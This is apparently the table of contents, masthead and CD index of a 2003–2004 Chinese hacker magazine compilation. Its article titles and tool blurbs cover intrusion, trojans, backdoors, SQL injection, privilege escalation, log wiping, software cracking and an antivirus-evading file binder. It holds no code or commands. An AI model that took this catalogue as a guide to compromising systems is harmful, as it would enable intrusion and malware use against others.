# 黑客X档案合订本2003-2004年（中）第一部分

---

## 《黑客X档案》畅销系列图书

菜鸟Hack进化最佳教程  
￥28.80

## [2003-2004年][中卷] 黑客X档案合订本

### 全新主题乐园之菜鸟新飞

- 全面入侵之新手进阶
- Windows个人文件安全探讨
- 安全技术入门与进阶全接触
- 扫描工具中的航空母舰——流光5全解析
- 非常规提权限之五大兵法
- Linux入侵指南

## 特别策划

### 战术攻防之电子空间特训基地建设篇



### 新文章

- DVBBS 7.0 HTML代码执行漏洞
- 突破在线漫画的下载限制
- BBSXP漏洞利用
- PortLess BackDoor
- 经典后门adore
- 重返自己的战场——浅谈Linux下的后门技术
- 拥有属于自己的防火墙

## 精彩连载 100%

- 《独孤九剑》破剑式→破刀式→破掌式→牛刀小试
- 精通批处理教程连载（一）（二）
- 遭遇蠕虫NIMDA 上集 下集
- 蜜罐进阶之Hit@me入侵分析（一）（二）
- IPC$入侵攻防完全解惑（上）（下）

创刊号刊首语  
当冰冷流动的时间世界淹没我们的理想，当激情消散在繁华中，心中那点希望之灯却依然让我感到温暖，依然能让我感觉到，无尽的力量。——佚名

## 你最喜欢的文章

- 不要忽视Win2k带给我们的“黑客工具”
- 入侵全攻略
- 台湾第一匹反弹端口木马peep
- 菜鸟找肉鸡
- “黑”吃“黑”
- 海阳顶端网asp木马2003版应用详解
- 一次非常规局域网攻击实例
- 把肉鸡做成个人主页
- 黑客利刃——NC
- 构造特殊字符来进行渗透入侵
- 守罐待“鸡”
- 入侵ACBII v1.3留言本图文详解
- 我的一次反黑手记
- 利用网页陷阱获取NT散列
- GUEST权限的提升
- 特殊的溢出连接
- 了解Win2k的用户
- 国产反弹木马新星——木马风雪
- 一种脚本漏洞的通用探测及入侵方法
- 超浓缩的1.68K telnet后门



## [2003-2004] 黑客X档案合订本 [中卷]


做一本和读者站着看的杂志  
不让生活磨灭我们的个性  
平民化 自由度 随意性 突破极限

黑客X档案  
hackerxfiles

拥有国内最高人气值的黑客类媒体

### 黑客X档案2003—2004年合订本（中卷）

出版：吉林科学技术出版社  
出品人：孙胜利  
主编：覃华  
编辑部主任：孙志强  
编辑部：Zero 黑柿子 土豆 呆呆虫 楚汉  
特约编辑：Python 射手 雪莲莲 ICEYES 小刘  
光盘部：袁连成  
美编：何有接 Bifrost  
排版：何有接  
E-mail：hackerxfiles@263.net  
邮购查询E-mail：chaxunx@263.net  
邮购查询电话：（010）88560080  
联系电话：（010）88561473 88561472  
联系人：赵琦 小邵  
邮编：100037  
定价：28.8元（双光盘+双图书）

申明：刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿费已包含了授权相关资费。如有相关问题，请作者及时与我们联系。

## CONTENT

## 你最喜欢的文章

本栏目的所有文章是X编辑部根据“读者回执卡”，评选出来的最受读者欢迎的文章，特独立成栏目推荐给大家。

| 标题 | 页码 | 期号 |
|---|---:|---:|
| 不要忽视 Win2k 带给我们的“黑客工具” | 10 | 2003-2 |
| 黑暗天使简明图文教程 | 13 | 2003-2 |
| 入侵全攻略 | 17 | 2003-2 |
| 台湾第一匹反弹端口木马 peep | 22 | 2003-3 |
| 菜鸟找肉鸡 | 24 | 2003-3 |
| “黑”吃“黑” | 26 | 2003-3 |
| MS-BSA 保护你的计算机 | 29 | 2003-4 |
| 海阳顶端网 asp 木马 2003 版应用详解 | 31 | 2003-4 |
| 一次非常规漏洞攻击实例 | 32 | 2003-4 |
| 把肉鸡做成个人主页 | 34 | 2003-4 |
| 黑软军刀——NC | 36 | 2003-5 |
| 几款实用小工具 | 39 | 2003-5 |
| 构造特殊字符来进行渗透入侵 | 40 | 2003-5 |
| 守罐待“鸡” | 41 | 2003-5 |
| 入侵 ACBII v1.3 留言本图文详解 | 44 | 2003-5 |
| 我的一次反黑手记 | 47 | 2003-6 |
| 利用网页陷阱获取 NT 散列 | 49 | 2003-6 |
| GUEST 权限的提升 | 51 | 2003-6 |
| 特殊的溢出连接 | 54 | 2003-6 |
| 了解 Win2k 的用户 | 55 | 2003-6 |
| 国产反弹木马新星——木马风雪 | 58 | 2003-7 |
| 加固你的肉鸡 | 61 | 2003-7 |
| 一次渗透电影网站的全过程 | 63 | 2003-7 |
| 打破XP的神话——2003年最强漏洞RPC溢出 | 64 | 2003-8 |
| 网吧路由器入侵手记 | 69 | 2003-9 |
| 一种脚本漏洞的通用探测及入侵方法 | 71 | 2003-9 |
| 超浓缩的 1.68K telnet 后门 | 73 | 2003-9 |

## 精彩连载 100%

每次，我都要等一个月，等待的滋味，哎，你知道；现在，我们完全可以一次看过够。本栏目把2003年的精彩连载文章串在一起，让我们快意阅读，一读到底。

| 标题 | 页码 | 期号 |
|---|---:|---:|
| 《独孤九剑》软件破解篇：破剑式 | 74 | 2003-4 |
| 《独孤九剑》软件破解篇：破刀式 | 75 | 2003-5 |
| 《独孤九剑》软件破解篇：破掌式 | 77 | 2003-6 |
| 《独孤九剑》软件破解篇：牛刀小试 | 82 | 2003-8 |
| 精通批处理教程：连载一 | 84 | 2003-5 |
| 精通批处理教程：结局篇 | 88 | 2003-6 |
| 遭遇蠕虫 NIMDA：上集 | 91 | 2003-5 |
| 遭遇蠕虫 NIMDA：下集 | 94 | 2003-5 |
| 蜜罐进阶之 Hit@me 入侵分析（一） | 96 | 2003-7 |
| 蜜罐进阶之 Hit@me 入侵分析（二） | 99 | 2003-9 |
| Folder.htt 和 Desktop.ini 文件有何能耐（上） | 101 | 2003-7 |
| Folder.htt 和 Desktop.ini 文件有何能耐（下） | 103 | 2003-9 |
| IPC$ 入侵攻防完全解惑（上） | 105 | 2003-8 |
| IPC$ 入侵攻防完全解惑（下） | 108 | 2003-9 |

### 傻瓜黑客

| 标题 | 页码 | 期号 |
|---|---:|---:|
| 如何追踪垃圾邮件来源 | 112 | 2003-2 |
| 文件类型之操作黑洞揭密 | 113 | 2003-2 |
| 注册表万能解锁方法 | 115 | 2003-2 |
| 突破网吧禁止下载文件一妙招 | 115 | 2003-2 |
| QQ 中发送特大炸弹深入分析 | 116 | 2003-3 |
| 扫描工具，别忘了 x-way2.5 | 118 | 2003-3 |
| “神奇”现象的背后 | 120 | 2003-3 |
| 网络特警——Norton Internet Security 2002 | 121 | 2003-3 |
| 由金山毒霸恢复 EXE 文件关联说起 | 122 | 2003-3 |
| QQ 密码防盗独孤十技 | 123 | 2003-3 |
| 杂谈 139 端口 | 125 | 2003-3 |
| 浅析后门程序 ACKCMD | 126 | 2003-3 |
| 修改注册表提高 Win2000 抗拒绝服务攻击能力 | 129 | 2003-3 |
| 绕过 Windows 进入系统的方法 | 130 | 2003-3 |
| 详解 SYN Flood 的基本原理 | 131 | 2003-4 |
| 去除 NTLM 验证全攻略 | 133 | 2003-4 |
| 两个菜鸟的问答杂记 | 134 | 2003-4 |
| Ping 的背后 | 135 | 2003-4 |
| 浅谈进入 Win2000 后留下的足迹 | 136 | 2003-4 |
| BAT 文件在黑客技术中的妙用 | 139 | 2003-4 |
| 几种容易被忽视的程序自启动方式 | 140 | 2003-4 |
| 利用系统Bug在肉鸡上巧妙隐藏目录和文件 | 143 | 2003-4 |
| 简简单单学汉化 | 144 | 2003-4 |
| 入侵 NT 中 Winshell 的使用 | 146 | 2003-5 |
| 忘记管理员密码的解决方法 | 147 | 2003-5 |
| Windows2000自动登录的实现、破解及防范 | 148 | 2003-5 |
| 轻松开启 Win2K 终端服务 | 149 | 2003-5 |
| 突破网络执法官封锁的方法及其原理 | 151 | 2003-5 |
| 网吧中下载文件新方法 | 152 | 2003-5 |
| .ini文件的妙用——“神奇现象的背后”SP2 | 154 | 2003-6 |
| 多管齐下完成局域网中的隐身 | 155 | 2003-6 |
| 我们应该知道哪些服务，我们不需要 | 156 | 2003-6 |
| 写个菜鸟的“伪入侵” | 159 | 2003-6 |
| 重定向命令在安全方面的几则应用 | 161 | 2003-6 |
| 给你的机子装只“天眼” | 163 | 2003-6 |
| 动网论坛又一最新漏洞导致用户密码泄露 | 165 | 2003-6 |
| 3389 终极技巧 | 166 | 2003-7 |
| 在肉鸡中隐藏文件一法 | 167 | 2003-7 |
| 危险的隐藏 | 169 | 2003-7 |
| 定制你的 x-scan2.3 | 171 | 2003-7 |
| 再谈复制“A”盘 | 173 | 2003-7 |
| webdavscan 的另类作用 | 174 | 2003-7 |
| Windows 系统各种密码忘了怎么办 | 175 | 2003-7 |
| 使用远程控制软件 DameWare 的一点心得 | 177 | 2003-7 |
| 对操作系统识别的基本方法 | 178 | 2003-8 |
| 轻轻松松过“二级” | 180 | 2003-8 |
| Win2K svr的超级工具箱——Resource kit | 182 | 2003-8 |
| 手把手教你伪造电子邮件 | 185 | 2003-8 |
| 简述 sniffer pro | 186 | 2003-8 |
| 入侵不留痕——清除本机记录 | 188 | 2003-8 |
| Tftp 安装使用全接触 | 189 | 2003-8 |
| 如何删除 GUEST 用户 | 192 | 2003-9 |
| 妙用 Shutdown 在 Win2000 中远程关机 | 193 | 2003-9 |
| SQL Injection 攻击详解 | 193 | 2003-9 |

### 木马笔记

| 标题 | 页码 | 期号 |
|---|---:|---:|
| 远程控制之简单答疑 | 195 | 2003-2 |
| 后门程序“木牛”的使用方法简介 | 196 | 2003-3 |
| 流行木马技术盘点 | 197 | 2003-4 |
| 远程窃屏木马——remote anything | 198 | 2003-4 |
| 一款不错的远程控制软件 | 202 | 2003-4 |
| 图解“冰河陷阱” | 204 | 2003-5 |
| 须眉不让巾帼——广外男生试用手记 | 205 | 2003-5 |
| 让传奇木马走开 | 207 | 2003-5 |
| 木马全攻略 | 209 | 2003-5 |
| 防范 ASP 木马 | 212 | 2003-6 |
| 变害为宝——巧用木马的文件关联保护电脑 | 214 | 2003-6 |
| 迷你型 FTP 木马——SlimFTPd | 215 | 2003-6 |
| 超级后门 NT Rootkit | 217 | 2003-6 |
| 木马大扫荡 | 219 | 2003-7 |
| 查你个底儿朝天——传奇号被盗之后 | 222 | 2003-7 |
| 反弹端口技术及其应用 | 223 | 2003-7 |
| 新后门 SRV 试用手记 | 225 | 2003-8 |
| 木马中的“猛兽”——BEAST | 226 | 2003-8 |
| ASP 后门放置方法的深入研究 | 228 | 2003-8 |

### 补丁园

| 标题 | 页码 | 期号 |
|---|---:|---:|
| 狂风汉化百宝箱 XP 的暴力破解 | 231 | 2003-2 |
| 你的密码安全吗 | 234 | 2003-2 |
| 用 TRW2000 解决 WinZip8.1 的注册码 | 236 | 2003-3 |
| 硬盘保护卡破解实战 | 237 | 2003-3 |
| 智取聚杰大眼睛 | 237 | 2003-3 |
| 教你做张钥匙盘 | 238 | 2003-4 |
| 一款填入注册码后自动重启程序的解密过程 | 240 | 2003-5 |
| 以静制“动”——OllyDbg 破解技巧 | 241 | 2003-5 |
| 灰鸽子破解实战 | 242 | 2003-6 |
| 当 Cracker 遇上非法操作 | 243 | 2003-7 |
| PE 文件修复浅谈 | 245 | 2003-7 |
| UltraEdit10 解密实战 | 246 | 2003-8 |

### 一个人的战争

| 标题 | 页码 | 期号 |
|---|---:|---:|
| 利用 solarwinds 获得路由器控制权 | 251 | 2003-2 |
| 巧用注册表恢复 RPC 服务 | 252 | 2003-2 |
| Unicode 的一些漏洞利用技巧 | 253 | 2003-2 |
| 秘密潜入虚拟主机 | 255 | 2003-3 |
| 太公钓鱼 | 257 | 2003-3 |

## CONTENT

| 标题 | 页码 | 期号 |
|---|---:|---|
| 进一步入侵 Cisco 路由器 | 258 | 2003-3 |
| 网吧路由器入侵 | 262 | 2003-4 |
| 对开有金山防火墙金山网镖的远程主机的入侵 | 263 | 2003-4 |
| Win98 也能玩入侵 | 265 | 2003-4 |
| vbe 文件的妙用 | 266 | 2003-4 |
| 成功利用 WebDAV 缓冲区溢出漏洞 | 269 | 2003-4 |
| Windows Locator 服务远程缓冲区溢出漏洞 | 270 | 2003-5 |
| 另一款 WebDAV 工具的溢出实验 | 272 | 2003-6 |
| 通过 Samba 漏洞轻松入侵 Linux 系统 | 273 | 2003-7 |
| 入侵动网 6.0 的 cookie 构造问题 | 276 | 2003-7 |
| 黑客利器——SqlRootkit | 277 | 2003-7 |
| 肉鸡追踪术 | 278 | 2003-7 |
| 一次 ASP 漏洞权限提升之执着篇 | 280 | 2003-7 |
| 一种通用的 Sql Injection 攻击方法 | 282 | 2003-7 |
| 获取远程主机的当前用户密码 | 286 | 2003-7 |
| 对 sa 的权限突破 | 288 | 2003-7 |
| Email 在入侵中的妙用 | 289 | 2003-7 |
| 对 sa 的权限再突破 | 290 | 2003-8 |
| Windows Media 服务 nsiislog.dll 远程缓冲区溢出漏洞 | 292 | 2003-8 |
| DDoS 杂谈 | 294 | 2003-8 |
| 篡改动网论坛标题 | 295 | 2003-8 |
| 从漏洞到后门 | 296 | 2003-8 |
| 肉鸡归来记 | 297 | 2003-8 |
| 浅谈交互登录问题的解决方法 | 299 | 2003-8 |

### 安全第一

| 标题 | 页码 | 期号 |
|---|---:|---|
| 谈谈 Win2k 的日志与安全 | 301 | 2003-5 |
| BBS 安全策略 | 304 | 2003-6 |
| 谁在动我的奶酪 | 305 | 2003-6 |
| Windows 服务器的基本安全设置 | 306 | 2003-6 |
| 反黑精英——BlackICE | 307 | 2003-7 |
| 让 Windows98 登录更安全 | 309 | 2003-7 |
| 如何关闭危险端口 | 310 | 2003-8 |

### 黑客研究院

| 标题 | 页码 | 期号 |
|---|---:|---|
| 老狐狸旧疾难愈——Foxmail 4.2 简体中文版漏洞测试 | 312 | 2003-2 |
| 常见手工入侵检测 | 314 | 2003-2 |
| 搜寻黑客的影子 | 315 | 2003-2 |
| 续一次针对虚拟主机的安全测试 | 318 | 2003-2 |
| 关于网吧服务器的网络安全问题 | 321 | 2003-2 |
| Cisco 路由器特权密码恢复秘笈 | 323 | 2003-3 |
| 关于 XP 用户的一点小问题 | 325 | 2003-3 |
| IIS.ASP 漏洞之如何溢出 | 326 | 2003-4 |
| Linux 下个人防火墙的建立 | 327 | 2003-4 |
| 防火墙体系基本结构 | 328 | 2003-5 |
| Win2000 入侵日志分析 | 330 | 2003-5 |
| cookie 工具三剑客 | 332 | 2003-6 |
| SMB 会话劫持原理篇 | 336 | 2003-6 |
| 漫谈主流操作系统中可信路径安全机制 | 339 | 2003-8 |

### 黑客编程

| 标题 | 页码 | 期号 |
|---|---:|---|
| 用 VB6.0 实现文件切割组合 | 341 | 2003-2 |
| 用 VBS 脚本“敲”开 Win2k 的大门 | 343 | 2003-2 |
| 简单密码程序的编写 | 344 | 2003-2 |
| Delphi 实现 Win2k 下关联进程/端口之代码 | 346 | 2003-2 |
| VBS 脚本在系统安全中的八则妙用 | 348 | 2003-3 |
| 一个清 BIOS 的小软件 | 350 | 2003-3 |
| 随意打造自己的系统进程监视器 | 351 | 2003-4 |
| 制作有启动窗体的木马 | 353 | 2003-4 |
| 如何在 XP 下编写密码察看器 | 354 | 2003-5 |
| 自己动手写 SYN Flood 攻击程序 | 355 | 2003-5 |
| 打造属于自己的黑客兵器 | 358 | 2003-6 |
| 深入解析 QQ | 361 | 2003-7 |
| 用 C# 编写 SMTP 服务器扫描程序 | 363 | 2003-7 |
| 打造自己的文件夹伪装程序 | 365 | 2003-7 |
| 批处理的几则高级应用 | 366 | 2003-8 |
| 编写 SYN 扫描器实战 | 368 | 2003-8 |
| 用 Perl 打造匿名邮件发送器 | 369 | 2003-8 |

### 病毒

| 标题 | 页码 | 期号 |
|---|---:|---|
| 一次杀毒经历引出的网络安全话题 | 371 | 2003-2 |
| 全面了解宏病毒 | 372 | 2003-3 |
| 叛逆者病毒分析 | 375 | 2003-4 |
| 让杀毒软件 PASS ASP 木马 | 379 | 2003-8 |
| 彻底清除爱情后门 | 380 | 2003-8 |
| RPC MSBLAST 蠕虫病毒分析 | 382 | 2003-8 |

## 目录

### IP 端口

| 标题 | 页码 | 期号 |
|---|---:|---|
| 揭开 IP 包的神秘面纱 | 385 | 2003-2 |
| SNMP 及其编程基本框架与实现介绍 | 386 | 2003-2 |
| 构建“第三方”FTP 服务器 | 390 | 2003-4 |

### 呆呆虫问吧

- 呆呆虫问吧 ............................................ 448 .. 2003-2-8

### 全新文章

#### 主题乐园

| 标题 | 页码 | 期号 |
|---|---:|---|
| 浅谈 Win2K 攻防工具 | 392 | 2003-2 |
| Windows2000 入侵篇 | 392 | 2003-2 |
| Windows2000 防御篇 | 398 | 2003-2 |
| 加固你的 Win2K | 403 | 2003-4 |
| Windows2000 安全前奏 | 403 | 2003-4 |
| 主动出击 | 405 | 2003-4 |
| 基本组件安全攻略 | 406 | 2003-4 |
| 进一步配置，与黑客人物面对面 | 410 | 2003-4 |
| 菜鸟先飞 | 412 | 2003-5 |
| 菜鸟加油篇 | 410 | 2003-5 |
| 收集主机信息篇 | 414 | 2003-5 |
| 远程登录篇 | 417 | 2003-5 |
| 入侵基地篇 | 418 | 2003-5 |
| 菜鸟发招——攻击篇 | 419 | 2003-5 |
| 安全篇 | 421 | 2003-5 |
| 结束语 | 424 | 2003-5 |
| 攻防实战手册——Linux 平台 | 424 | 2003-6 |
| Linux 攻击手法 | 424 | 2003-6 |
| Linux 安全防范 | 431 | 2003-6 |
| PKI 体系企业级配置运用 | 437 | 2003-7 |
| 前言 | 437 | 2003-7 |
| 一、PKI 体系基本概念 | 437 | 2003-7 |
| 二、PKI 实现结构 | 438 | 2003-7 |
| 三、PKI 实现具体配置 | 444 | 2003-7 |

#### 黑客新语

- 战术攻防之电子空间特训基地建设篇——网络攻防实验室构建 .......................................... 453

闲暇时间阅读 Jargon File 的时候，一则关于计算机奇迹（magic）的黑客故事吸引了我的注意……

- DVBBS 7.0 HTML 代码执行漏洞 ............................. 475

动网论坛的最新版本：DVBBS 7.0 发布了，这个在中国使用率最广的论坛，在新版本中又加入了许多更加人性化的设计，使用起来更加方便了……

- 突破在线漫画的下载限制 .................................. 477

本人是一个漫画迷，喜欢收藏精品漫画，但是现在漫画是越来越贵，质量却是越来越差……

- BBSXP 漏洞利用 .......................................... 478

BBSXP 近来也被发现了漏洞，一样是利用 SQL 注射，今天测试了一下果然是这样的……

- PortLess BackDoor ....................................... 479

后门是 hacking 最重要的一个环节。现在网上的后门真的是可以用“五花八门”来形容了……

- 经典后门 adore .......................................... 481

Adore 是 TESO 出品的一款 LKM 后门。LKM 全称是 Loadable Kernel Module。一般说来 LKM 为系统提供一些额外的功能，比如加载硬件驱动程序……

- 重返自己的战场——浅谈 Linux 下的后门技术 ......... 485

如果说入侵是一门技术，那么后门技术则是更高一层的艺术。严格来说，入侵并不是什么难事……

- 怎样使用虚拟机 .......................................... 488

相信许多读者已经看过在 2003 年第 11 期的 X 档案中钟毅榕写的《菜鸟的实验室——虚拟机》一文，在文中作者告诉了我们怎样在虚拟机中实验各种危险的程序……

- 拥有属于自己的防火墙 .................................... 490

防火墙主要由日志、网络状态列表、网络状态控制（如拦截）组成。所以，我们要 3 个界面：一个是主界面——状态列表，一个是日志界面，一个是控制界面……

- SMTP 电子邮件技术揭密 ................................... 494

SMTP 中文解释为“简单邮件传输协议”，我们平时发的电子邮件就是利用这个协议进行传输的……

#### X 补丁集

| 标题 | 页码 | 期号 |
|---|---:|---|
| 关于《还原精灵密码破解》一文的几个问题 | 445 | 2003-6 |
| 对 Win2K 命令行下自做弱口令扫描器的补充说明 | 445 | 2003-6 |
| 对《把肉鸡作成个人主页》一文的补充 | 446 | 2003-7 |
| 《对开有金山防火墙……》一文之疑惑 | 446 | 2003-8 |

## CONTENT

### Windows 个人文件安全探讨

- 05 前言
- 05 系统启动全攻略
  - 05 CMOS 攻防
  - 08 从“用户”谈起
  - 09 看看窗中有什么
  - 15 用好你的 DOS
- 18 加密保护你的文件
  - 18 NTFS 的威力
  - 20 常见应用程序加密与破解
  - 22 关于软件加密
- 24 藏就藏吧
  - 24 隐藏保护浅析
  - 34 经典文件保护
  - 37 隐藏的“内核级”原理初探
- 41 简单反隐藏计划
  - 41 个人用户反隐藏策略
  - 42 服务器反黑客隐藏策略
- 42 写在最后

### 特别主题乐园

## 菜鸟新飞

### 安全技术入门与进阶全接触

- 43 一、黑客攻击之道：“乱花渐欲迷人眼”
  - 44 1. 内功修炼：之网络基本命令
  - 47 2. 网络“千里眼”：之 Telnet 协议与远程攻击
  - 49 3. 网络“狗鼻子”：之嗅探器初接触
  - 53 4. “梦里落花”：之木马技术
  - 56 5. 电子邮件攻击
  - 56 6. 电子欺骗技术
- 57 二、个人防穿之道：“顺藤摸瓜”
  - 57 1. “鹿死三尺，遍地三关”：之病毒防范
  - 60 2. “锲而不舍”：之操作系统安全
  - 61 3. “亡羊补牢，为时未晚”：之漏洞技术
- 64 三、流行网络安全技术
  - 64 1. 天然屏障之防火墙技术
  - 67 2. 网络哨兵之入侵检测技术
  - 71 3. 网络铜墙之加密技术
  - 77 4. 网络身份认证之数字签名技术
- 84 四、实践：打造安全的服务器
  - 84 1. 业务端安全分析
  - 85 2. 为网上交易建立安全通道
  - 87 3. 给服务器加把锁
  - 88 4. 服务端证书的设置和服务器的访问
  - 89 5. 网络系统设计

### 扫描工具中的航空母舰——流光 5 全解析

- 92 流光的初步介绍
- 94 关于暴力破解与字典工具的使用
- 96 实例讲解如何使用暴力破解其他服务主机中的密码
- 99 标准模式的暴力破解
- 100 流光中的“代理扫描器”——Sensor
- 102 CGI 及 Plugins：自己写——构造自己更完善和前卫的漏洞扫描器
- 105 流光嗅探功能的使用
- 108 总结

### 全面入侵之新手进阶

- 109 1. 1433 端口入侵攻击
- 110 2. IDQ 漏洞攻击
- 112 3. IIS 的 PRINTER 应用程序映射堆栈溢出攻击
- 114 4. IPC$ 漏洞入侵
- 116 5. Unicode 漏洞入侵
- 118 6. 利用 FrontPage 扩展默认权限错误漏洞攻击
- 121 7. 输入法漏洞攻击
- 123 8. LSD RPC 溢出漏洞攻击

### 非常规提升权限之五大兵法

- 139 兵法第一式：攻心为上
- 140 兵法第二式：里应外合
- 143 兵法第三式：移花接木
- 147 兵法第四式：四面埋伏
- 151 兵法第五式：暗渡陈仓

### Linux 入侵指南

- 125 灭迹相关的系统特性
- 127 踩点 & 扫描
- 127 端口、漏洞扫描
- 128 Web 探测
- 129 拒绝服务攻击
- 130 远程渗透
- 132 得到了漏洞如何利用呢？
- 132 提升权限
- 133 得到 root 之后
- 134 后门 & 善后工作
- 136 擦脚印
- 137 入侵 FAQ

### 无线网络，真的安全吗？

- 152 一、概述
- 154 二、破解实例
- 159 三、防范于未然

## 光盘索引

### A盘

#### 文章相关

- Win2000 工具包：当我们在网上因搜寻工具而浪费时间时，是否注意过系统自带的一些小工具呢？
- 密码破解工具包：包括 Foxmail 杀手、RAR Password Cracker、Asterisk Password Recovery XP、黑雨。
- NeoTrace：一套利用图示来告知从自己的电脑连接至网络某网站所经过的 ISP 速率报告。
- IRIS：网络流量分析监测工具，可以帮助系统管理员轻易地捕获和察看用户的使用情况。
- Wolff remote manager：扩展 Telnet 服务，集成文件传输、FTP 服务器、键盘记录、Sniffer（for win2k only）。
- Clearlog：通常入侵某台服务器后为了避免被跟踪，都采用这一方法来消除 IP 记录。
- Microsoft Baseline Security Analyzer：安全检测程序。
- CreateInstall：制作安装软件的工具。
- Kwdsm：反编译工具，静态分析中文软件的利器。
- DameWare NT Utilities 4.2：强大的 Windows 服务器远程控制软件。
- 海阴顶端木马：极好的 ASP 在线网页编辑软件。
- KeyMake 2.0：根据 keymake2.0 预览版和新版的 MASM 特意制作的完全安装版。
- SuperScan 4.0：增加了很多功能，可以自定义端口列表、扫描方式、请求方式等。
- FPort：可以把本机开放的 TCP/UDP 端口同应用程序相关联。
- Remote Anything：能让你使用或监视 LAN 上或 Internet 上远程的 PC，可以拖拽文件等。
- Arpkiller：可以快速查出局域网所有主机的 IP。
- 广外男生：使用广外程序员独创的“线程插入”技术。
- Winice：Win9x 与 WinMe 下的跟踪调试程序，跟踪功能更强。
- w32dasm 黄金版：完美显示中文字符串，反汇编极品，破解者的屠龙刀。
- ProcDump、PEidentifier：出的侦测壳的超强工具。
- PE-SCAN：检测出软件到底是用什么东西加的壳。
- Nmap：是一款针对大型网络的端口扫描工具，尽管它也适用于单机扫描。
- DBPort：一个查看进程打开相应端口的软件，图形界面。
- 黑雨 HTTP 网页密码暴力破解器：用来暴力破解网页上的一些登录密码，支持多线程、指定密码起止位数。
- 鸿威文件捆绑器：合并后完全避开杀毒软件查杀，加入的所有文件将被压缩和加密处理！
- Nessus：是一款不错的基于 UNIX、Linux、BSD、Solaris 和其他一些系统上的远程安全扫描工具。
- PGP：被美国列为军事机密的邮件加密“杀手级”软件。
- OllyDbg：一个 32 位汇编级的直观分析调试器。
- BadCopy99：是款坏盘拷贝工具。
- CGI 网页后门：envymask 编写。
- 键盘幽灵：记录键盘（包括小键盘）的动作，同时可以控制软件的延时运行时间。
- SlimFTP：架设 FTP 服务器的小工具。
- MacDraw：批量获取局域网内部所有机器的 MAC 地址。
- NetBlock Pro：可控制一切来自局域网和 Internet 上的访问。
- Cookie：嗅探、发送、管理工具包。
- SlimFTPd：国外木马，绿色软件，无需安装，体积小巧，可加为系统服务，配置方便等。
- 两款 ASP 木马源代码。
- Sysocmgr：Win2000 无人值守工具。
- AnyPassword：星号查看工具。
- Peditor：一款不错的 PE 文件修改软件。
- SuperBPM：一个增强 softice 和 trw 下断点的软件。

### B盘

#### 地下阅读

- 黑客零起点：阅读对象：初、中级黑客技术爱好者。
- 文章以“入门到精通，基础＋技巧”，适用各类别读者。
- 电脑技巧精彩文章 100 篇：包括电脑技巧、网络技巧、软件技巧等。
- 防火墙技术指南：文章内容极其详尽，从因特网的诞生开始，涉及到网络的方方面面。
- 软件网络疑难问题与技巧：Win98、WinXP、输入法、网络安全、Internet 应用、多媒体工具、翻译工具、压缩解压工具、图片浏览工具、局域网应用等。
- 外挂制作教程：本外挂制作教程，按照人们的一般认识规律，由浅入深，全面系统地讲述了外挂制作的所有内容。
- IP 地址管理与子网划分：讲述的是 IP 地址的管理技术。
- XP 优化秘籍：XP 系统至今仍是个人用户最理想的平台，有问题就查查它吧！
- VB 精华文章：内容包括得很广泛，且十分精致。如：API、FILE 等。
- 黑客入侵之路：一个很适合初学者“上黑路”的教程。
